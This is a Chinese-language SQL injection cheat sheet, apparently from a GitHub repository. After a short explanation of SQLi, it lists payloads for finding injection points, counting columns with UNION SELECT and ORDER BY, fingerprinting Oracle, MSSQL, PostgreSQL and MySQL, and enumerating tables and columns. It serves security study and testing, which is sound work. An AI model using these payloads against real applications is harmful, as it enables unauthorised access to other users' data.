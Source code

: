 # SQL注入
SQL 注入 (SQLi) 是一种网络安全漏洞，允许攻击者干扰应用程序对其数据库的查询。它通常允许攻击者查看他们通常无法检索的数据。这可能包括属于其他用户的数据，或应用程序本身能够访问的任何其他数据。在许多情况下，攻击者可以修改或删除这些数据，从而导致应用程序的内容或行为发生持续变化。
成功的 SQL 注入攻击可能导致未经授权访问敏感数据，例如密码、信用卡详细信息或个人用户信息。近年来，许多备受瞩目的数据泄露事件都是 SQL 注入攻击的结果，导致声誉受损和监管罚款。在某些情况下，攻击者可以获得进入组织系统的持久后门，从而导致长期危害，而这种危害可能会在很长一段时间内被忽视。

## SQL 注入

### 判断注入点

使用 ' / " 等注入
*若Web报错则说明服务器后端查询语言为 ’ / “ 引号闭合*

*注释后面不执行*
>甲骨文&emsp;&emsp;&emsp;&emsp;\--comment
>微软&emsp;&emsp;&emsp;&emsp;&emsp;--comment
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;/*comment*/
>PostgreSQL&emsp;&emsp;--comment
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;/*comment*/
>MySQL&emsp;&emsp;&emsp;&emsp;\#comment
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;-- comment[注意双破折号后的空格]
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;/*comment*/

### 判断数据表的列数

利用联合查询
> ' UNION SELECT NULL --
> ' ORDER BY 1 --

*若无法查询则说明目标为 Oracel数据库 ' UNION SELECT \* FROM DUAL-- *

### 判断数据库类型

>甲骨文&emsp;&emsp;&emsp;&emsp;SELECT banner FROM v\$version
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT version FROM v\$instance
>微软&emsp;&emsp;&emsp;&emsp;&emsp;SELECT @@version
>PostgreSQL&emsp;&emsp;SELECT version()
>MySQL&emsp;&emsp;&emsp;&emsp;SELECT @@version

### 判断数据库内容

>甲骨文&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM all_tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
>微软&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
>PostgreSQL&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
>MySQL&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
